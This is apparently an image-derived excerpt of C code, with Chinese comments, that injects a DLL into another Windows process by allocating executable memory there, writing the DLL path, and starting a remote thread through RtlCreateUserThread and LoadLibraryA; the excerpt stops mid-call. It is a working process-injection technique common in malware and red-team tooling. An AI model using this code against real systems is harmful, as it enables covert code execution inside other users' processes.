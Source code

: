 ```c
    pRtlCreateUserThread RtlCreateUserThread = NULL;
    HANDLE  hRemoteThread = NULL;

    //打开目标进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId); //打开目标进程pid
    if (hProcess == NULL)
    {
        printf("[-] Error: Could not open process for PID (%d).\n", dwProcessId);
        exit(1);
    }

    //获取LoadLibraryA函数
    LPVOID LoadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");  //load函数地址
    if (LoadLibraryAddress == NULL)
    {
        printf(("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
        exit(1);
    }

    //获取RtlCreateUserThread函数
    RtlCreateUserThread = (pRtlCreateUserThread)GetProcAddress(GetModuleHandle(("ntdll.dll")), ("RtlCreateUserThread"));//获取Rtl函数地址
    if (RtlCreateUserThread == NULL)
    {
        exit(1);
    }

#ifdef _DEBUG
    printf(("[+]RtlCreateUserThread函数地址： 0x%08x\n"), (UINT)RtlCreateUserThread);
    printf(("[+]LoadLibraryA函数地址： 0x%08x\n"), (UINT)LoadLibraryAddress);
#endif

    //在目标进程空间开辟空间
    DWORD dwSize = (strlen(pszLibFile) + 1) * sizeof(char);
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);//开辟一段地址
    if (lpBaseAddress == NULL)
    {
        printf(("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
        exit(1);
    }

    //将DLL名称保存到开辟的空间
    BOOL bStatus = WriteProcessMemory(hProcess, lpBaseAddress, pszLibFile, dwSize, NULL);  //目标dll写入
    if (bStatus == 0)
    {
        printf(("[-] Error: Could not write any bytes into the PID (%d) address space.\n"), dwProcessId);
        return(1);
    }

    //开启远程线程，使用 RtlCreateUserThread 函数加载DLL
    bStatus = (BOOL)RtlCreateUserThread(
        hProcess,
        NULL,
        0,
        0,
        0,
        0,
        LoadLibraryAddress,  //shellcode
        lpBaseAddress,
```